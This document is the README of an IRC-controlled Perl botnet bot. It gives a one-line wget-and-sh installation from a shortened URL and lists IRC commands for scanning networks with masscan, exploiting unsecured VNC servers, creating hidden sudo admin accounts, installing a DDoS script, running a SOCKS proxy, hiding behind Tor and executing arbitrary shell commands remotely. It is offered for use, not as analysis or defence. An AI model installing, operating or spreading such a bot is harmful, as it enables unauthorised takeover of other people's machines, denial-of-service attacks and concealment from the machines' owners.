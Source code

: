 This code is an IRC BOT that can connect to an IRC server with SSL
The main purpose of this bot is to scan for Open/Unsecured VNC servers.

## ---INSTALLATION---

### wget https://is.gd/perlvncbot && sh perlvncbot

## ----COMMANDS----
## NOTE:The commands can be done via PRIVATE MESSAGE and CHANNEL also.
### ----------------
## NEW COMMAND: @.getssh <= This will make a random admin account/password with sudo powers (use: sudo su :to get root access)
### ----------------
## Using this command will start masscan on your Local Area Network, or the LAN which the bot is installed on.
### @.scan 192.168.0.0-192.168.255.255 
## This needs to be done before each @.exploit
### @.format 
## This runs the VNC exploit and reports the working VNCs to the channel
### @.exploit 
## This kills the exploit run
### @.stopexploit 
## This installs ddos.py on the root account
### @.ddos
## This blocks botnets from scanning your servers you owned
### @.blocknoobs
## This resets the iptables firewall to initial state and deletes all the rules that were made to it
### @.fwreset
## This runs a socks5 server on port 1080
### @.socks
## This updates the autorun of the bot on boot 
### @.autorun
## This installs a xfce4 remote desktop on a random port accessible by your browser (tested working on debian)
### @.novnc
## This installs proxychains and tor socks and hides the bot behind a tor node before connecting your server
### @.cloak
## NOTE: You can control the bot by saying "sudo command args" and the bot will reply the output of the terminal also the bot will connect back to the server if it gets disconnected from it.
